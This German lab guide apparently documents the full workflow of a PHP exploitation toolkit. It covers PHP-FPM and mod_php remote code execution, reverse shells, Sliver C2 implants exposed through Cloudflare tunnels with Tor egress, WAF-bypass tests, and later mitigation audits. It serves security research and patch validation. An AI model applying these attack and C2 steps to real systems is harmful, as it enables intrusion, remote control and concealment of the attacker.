

# Kompletter Workflow — Lab-Erstellung bis Post-Exploitation

**PHP2Shell Unchained** · By Leviticus-Triage  
Stand: geprüft gegen Repo `main` (Workflow-Verifikation + Full-Stack-Matrix).  
Englische Kurzübersicht: [README.md](../README.md) · Technisches Handbuch: [DOCUMENTATION.md](DOCUMENTATION.md)

Dieses Dokument beschreibt den **gesamten Ablauf** von der Installation über Exploitation (FPM, mod_php, optional Jackalsyn) bis Post-Exploitation (Sliver, Tunnel/Tor, Reverse Shell, Singularity) und abschließende Mitigations-Validierung — inklusive **Terminals**, **Logs** und **erwarteter Ergebnisse**.

---

## Übersicht (Phasen)



| Phase | Menü | Ziel | Typisches Ergebnis im Lab |
|-------|------|------|---------------------------|
| 0 | Vorbereitung | Binaries, CLI | `third_party/` gefüllt |
| 1 | **[1] FPM** | UAF + Chain A RCE | `uid=33(www-data)` |
| 2 | **[2] Zer061** | Heap RCE mod_php | `PROOF` in `out/p1` |
| 3 | **[3] Jackalsyn** | FCGI-Forschung | `selftest PASS`; `lab` build-abhängig |
| 4 | **[4] Multi** | Scan/Exploit-Liste | Fingerprint + optional Exploit |
| 5 | **[5] lukechilds** | Alt. Reverse Shell | Listener + Payload |
| 6 | **[6] Sliver + External** | C2 + externe Sicht | Implant, trycloudflare-URL |
| 7 | **[7] Singularity** | LKM / Detection | Checkliste, kein Load ohne Confirm |
| 8 | **[8] Workarounds** | Patch/WAF-Tests | JSONL + `auswertung.md` |
| 10 | **[d] Docker** | `down` | Alle Profile + Tunnel/Tor weg |

---

## Phase 0 — Lab anlegen (einmalig)

### Voraussetzungen

- Docker Engine + Compose v2
- `bash`, `curl`, `python3`
- `git clone` des Repos (z. B. [github.com/Leviticus-Triage/php2shell-unchained](https://github.com/Leviticus-Triage/php2shell-unchained))

### Installation

```bash
cd php2shell-unchained   # oder php2shell-lab-vtbw
./scripts/install-commands.sh
```

Symlinks: `~/.local/bin/vtbw-php2shell-lab`, `php2shell-unchained`, `vtbw-php2shell-doctor`.

### Preflight

```bash
vtbw-php2shell-doctor    # nur sinnvoll wenn target schon läuft; sonher zuerst up
vtbw-php2shell-lab up
vtbw-php2shell-doctor    # erwartet: PoC Armed 1/1, check_progress OK
```

### Bundles (einmalig, Netzwerk)

| Befehl | Inhalt | Pflicht für |
|--------|--------|-------------|
| `fetch-zer061` | Heap-Kit | Phase 2, `zer061-heap` Audit |
| `fetch-jackalsyn` | `php_up_framework.py` | Phase 3 |
| `fetch-sliver` | Sliver Server/Client | Phase 6 |
| `fetch-singularity` | LKM-Quellen | Phase 7 |
| `fetch-reverse-shell` | lukechilds | Phase 5 |

`third_party/` ist nicht im Git; ohne Fetch schlagen entsprechende Menüpunkte fehl oder werden übersprungen.

---

## Phase 1 — FPM-Exploitation (Chain A + UAF-Nachweis)

**Menü [1]** · **Terminal: 1** (für `shell`: interaktiv, gleiches Terminal)

### Schritte

```bash
vtbw-php2shell-lab up          # nginx + PHP-FPM, Host :19281
vtbw-php2shell-lab test        # 5× UAF-PoC (0x4148)
vtbw-php2shell-lab rce         # Chain A: session poison + LFI → id
vtbw-php2shell-lab shell       # interaktive www-data-Shell, quit zum Ende
```

### Erwartung (Default PHP 8.4.4 FPM)

| Schritt | Erfolgssignal |
|---------|----------------|
| `test` | `Pointers armed: 5/5` (oder partiell) |
| `rce` | `RCE (Chain A): uid=33(www-data)` |
| `doctor` | `Armed: YES`, `Pointers armed: 1/1` |

### Hinweis CVE / PoC

- `test`/`doctor` messen die **Erreichbarkeit** des Upload-Progress-Pfads (stale-pointer), **nicht** allein den Vendor-Patch-Status.
- Patch-Nachweis: `patch-audit run vendor-patch` oder PHP ≥ Fix-Release.

### Logs

- Container: `vtbw-php2shell-lab logs target`
- Kein persistentes Exploit-Log außer Terminal-Ausgabe; PoC läuft in ephemeral `attacker-run-*` Containern.

### Auto-Start

`rce`, `test`, `patch-audit` starten bei Bedarf das FPM-Target (`scripts/lab-ensure-stack.sh`), wenn es noch nicht läuft.

---

## Phase 2 — Zer061 (mod_php Heap RCE)

**Menü [2]** · **Terminal: 1** (`zer061-shell`: interaktiv)

```bash
vtbw-php2shell-lab fetch-zer061      # einmalig
vtbw-php2shell-lab apache-up         # PHP 8.4.26-apache, Host :19288
vtbw-php2shell-lab zer061            # 3-Stufen HTTP → Proof
vtbw-php2shell-lab zer061-shell      # Reverse-Shell-Pfad des Kits
```

### Erwartung

- `zer061`: Ausgabe verweist auf `third_party/zer061-php2shell/out/p1` mit `uid=33(www-data)` (Proof-Datei).
- Internes Ziel: `http://target-apache/index.php`

### Apache-Version (Fix-Test)

```bash
PHP_APACHE_VERSION=8.4.27 vtbw-php2shell-lab apache-up
vtbw-php2shell-lab patch-audit run zer061-heap   # erwartet PASS (gepatcht)
```

---

## Phase 3 — Jackalsyn (FCGI, build-abhängig)

**Menü [3]** · Zuerst **Menü [1] `up`** (FPM für FCGI `target:9000`)

```bash
vtbw-php2shell-lab fetch-jackalsyn
vtbw-php2shell-lab up
vtbw-php2shell-lab jackalsyn selftest    # PASS
vtbw-php2shell-lab jackalsyn syms       # optional, DTOR-Cache
vtbw-php2shell-lab jackalsyn lab        # FCGI bug 619/618 — oft kein command_in_body
```

### Erwartung

| Schritt | Typisch |
|---------|---------|
| `selftest` | `PASS` |
| `lab` | Erfolg **abhängig** von PHP-Build, DTOR, FPM-Config; im Lab oft **kein** Shell-RCE wie Chain A |

Vergleich: [EXPLOIT-CHAIN-COMPARISON.md](EXPLOIT-CHAIN-COMPARISON.md).

---

## Phase 4 — Multi-Target

**Menü [4]**

```bash
vtbw-php2shell-lab apache-multi-up
vtbw-php2shell-lab fingerprint
vtbw-php2shell-lab scan                    # targets/lab-targets.txt
vtbw-php2shell-lab exploit-list            # optional, destruktiver
```

Zwei Apache-Instanzen: `:19288`, `:19289`.

---

## Phase 5 — reverse-shell.sh (lukechilds)

**Menü [5]** · **Terminal 2** für `listen`, **Terminal 1** für Exploit

```bash
# Terminal 1
vtbw-php2shell-lab fetch-reverse-shell
vtbw-php2shell-lab apache-up
vtbw-php2shell-lab reverse-shell fetch

# Terminal 2
vtbw-php2shell-lab reverse-shell listen 4444

# Terminal 1
vtbw-php2shell-lab reverse-shell zer061
```

Nicht verwechseln mit **`zer061-shell`** aus Menü [2].

---

## Phase 6 — Post-Exploitation: Sliver C2 + External-Attacker

**Menü [6]** · Nach erfolgreicher RCE im Lab-Szenario

### Intern (Lab-Netz)

```bash
vtbw-php2shell-lab fetch-sliver
vtbw-php2shell-lab sliver server-up
vtbw-php2shell-lab sliver operator
vtbw-php2shell-lab sliver listener          # mTLS :8888 (nur intern)
vtbw-php2shell-lab sliver implant           # → out/sliver/implant
vtbw-php2shell-lab sliver stage             # HTTP-Staging :18080
vtbw-php2shell-lab sliver console           # interaktiv, Terminal blockiert
```

State: `out/sliver/server-data` (nach Container-Neuaufbau ggf. `operator` wiederholen).

### Externe Angreifer-Perspektive (Quick Tunnel ± Tor)

```bash
vtbw-php2shell-lab sliver http-listener     # HTTPS :8889
vtbw-php2shell-lab external up --tor        # Tunnel web + sliver-http, Egress Tor
vtbw-php2shell-lab tunnel url               # trycloudflare.com
vtbw-php2shell-lab tor ip                   # Exit-IP ≠ Host-IP
vtbw-php2shell-lab sliver implant-external  # C2 über Tunnel-Host
vtbw-php2shell-lab external patch-audit waf-bypass-top10
vtbw-php2shell-lab external down --tor
```

### Logs / State

| Pfad | Inhalt |
|------|--------|
| `out/sliver/ops.log` | Sliver-Operationen (UTC) |
| `out/tunnel/ops.log` | cloudflared |
| `out/tor/ops.log` | Tor-Gateway |
| `out/external/state.env` | URLs, Proxy, Modus |
| `out/external/ops.log` | Orchestrierung |

Ohne `--tor`: Cloudflare sieht die **Host-Egress-IP** beim Tunnel-Aufbau. Mit `--tor`: Sidecar-Route über Tor-Transit (`PATCH_AUDIT_PROXY=socks5h://vtbw-php2shell-tor:9050`).

Details: [HOWTO-DE.md](HOWTO-DE.md) Phase 6.

---

## Phase 7 — Singularity (LKM / Blue Team)

**Menü [7]** · **Nicht** in PHP-FPM/Apache-Containern laden

```bash
vtbw-php2shell-lab fetch-singularity
vtbw-php2shell-lab singularity container-up
# Build nur mit expliziter Bestätigung (Host-Kernel):
CONFIRM_SINGULARITY_CONTAINER=I_UNDERSTAND_REBOOT vtbw-php2shell-lab singularity container-build
vtbw-php2shell-lab singularity detect
vtbw-php2shell-lab patch-audit run singularity-detect
```

`container-build` ohne `CONFIRM_SINGULARITY_CONTAINER` bricht absichtlich ab (Schutz vor unbeabsichtigtem LKM auf dem Host).

---

## Phase 8 — Mitigations-Validierung (Sec-Team)

**Menü [8]** · **Terminal: 1** für `workarounds run|auto`

### Geführt (mit Log)

```bash
vtbw-php2shell-lab workarounds run    # 11 Schritte: ändern → ENTER → Prüfung
vtbw-php2shell-lab workarounds last     # Auswertung
```

Ausgabe: `out/workarounds/<UTC>/` (`session.log`, `steps.jsonl`, `step-NN-*.log`, `auswertung.md`).

Anleitung: [WORKAROUNDS-SCHRITT-FUER-SCHRITT.md](WORKAROUNDS-SCHRITT-FUER-SCHRITT.md).

### Einzelchecks

```bash
vtbw-php2shell-lab patch-audit list
vtbw-php2shell-lab patch-audit run all
vtbw-php2shell-lab patch-audit run waf-php2shell-signature
```

**Wichtig:** `patch-audit run` startet bei Lab-URLs automatisch `target` (und für `zer061-heap` Apache). Exit-Code `1` mit `[FAIL] <szenario>` bedeutet oft **„Mitigation greift nicht im Lab“** — kein Python-Traceback mehr bei Netzwerkfehlern.

JSONL: `out/audit/patch-audit.jsonl`.

---

## Phase 10 — Aufräumen

```bash
vtbw-php2shell-lab down
```

Entfernt: Default-Compose, Profile `apache`, `multi`, `singularity`, `sliver`, `tools`, Sidecars `vtbw-php2shell-tunnel*`, `vtbw-php2shell-tor`, `vtbw-php2shell-stage`, `out/external/state.env`.

---

## Automatische Workflow-Prüfung

Nicht-interaktive Stichprobe (ohne `shell`, `console`, `listen`):

```bash
vtbw-php2shell-lab workflow-verify
```

Artefakte: `out/workflow-verify/<UTC>/` (`verify.log`, `verify.jsonl`, `SUMMARY.md`).

Vollständige Matrix (FPM-Versionen, External, …):

```bash
vtbw-php2shell-lab validate
```

Artefakte: `out/validation/<UTC>/` — Referenzlauf dokumentiert in [DOCUMENTATION.md](DOCUMENTATION.md) § Validierung.

---

## Verifikationsstand (Referenz)

| Prüfung | Datum (UTC) | Ergebnis (Kurz) |
|---------|-------------|-----------------|
| Full-Stack-Matrix | `20261025T185500Z` | 66 Schritte; FPM vuln+patched; Zer061 8.4.26/8.4.27; External+Tor+implant-external; 2× SKIP (jackalsyn lab, singularity build ohne Confirm) |
| Workflow-Verify (komplett) | `20261026T004743Z` | 18 Schritte PASS inkl. Sliver+`external up --tor`+`implant-external`, workarounds auto, singularity detect; Audits `PASS(audit-result)` = HTTP ok, Szenario-FAIL erwartet im Lab |

---

## Terminal-Übersicht

| Aktion | Terminals |
|--------|-----------|
| FPM `up`/`test`/`rce`/`doctor` | 1 |
| `shell`, `sliver console` | 1 (blockierend) |
| `reverse-shell listen` + Trigger | **2** |
| `workarounds run`/`auto` | **1** |
| `logs -f` | optional 2. zum Mitbeobachten |
| `external up` / `validate` | 1 (lange Laufzeit) |

---

## Cursor / MCP

- Skill: `.cursor/skills/php2shell-unchained/SKILL.md`
- MCP: `lab_help`, `lab_status`, `lab_run`, `lab_read_doc`, `lab_exploit_map`
- Doc-Keys: `HOWTO-DE`, `WORKFLOW-KOMPLETT` (dieses Dokument via `lab_read_doc` nach Update), `PATCH-AUDIT`, `WORKAROUNDS`, `EXPLOIT-CHAIN`, `CURSOR`

Nach Änderungen an `mcp/php2shell_lab_mcp.py`: Cursor → MCP → Reload.

---

## Haftung

Nur autorisierte Lab- und Staging-Umgebungen. Siehe [SECURITY.md](../SECURITY.md).
